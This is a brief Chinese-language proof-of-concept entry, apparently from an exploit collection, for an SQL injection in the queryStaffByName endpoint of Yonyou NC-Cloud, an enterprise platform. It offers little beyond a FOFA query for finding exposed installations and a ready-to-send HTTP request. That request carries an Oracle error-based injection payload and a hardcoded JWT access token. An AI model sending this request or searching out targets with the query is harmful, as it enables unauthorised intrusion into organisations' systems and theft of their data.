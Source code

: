 # 用友NC-Cloud系统queryStaffByName存在SQL注入漏洞

 NC Cloud是用友推出的大型企业数字化平台。用友NC-Cloud系统queryStaffByName存在SQL注入漏洞。

## fofa

```yaml
app="用友-NC-Cloud"
```

## poc

```js
GET /ncchr/pm/staff/queryStaffByName?name=1%27+AND+7216%3DUTL_INADDR.GET_HOST_ADDRESS%28CHR%28113%29%7C%7CCHR%28107%29%7C%7CCHR%28112%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%287216%3D7216%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28106%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28113%29%29--+hzDZ HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accesstokenncc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![image-20240801101631113](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011016195.png)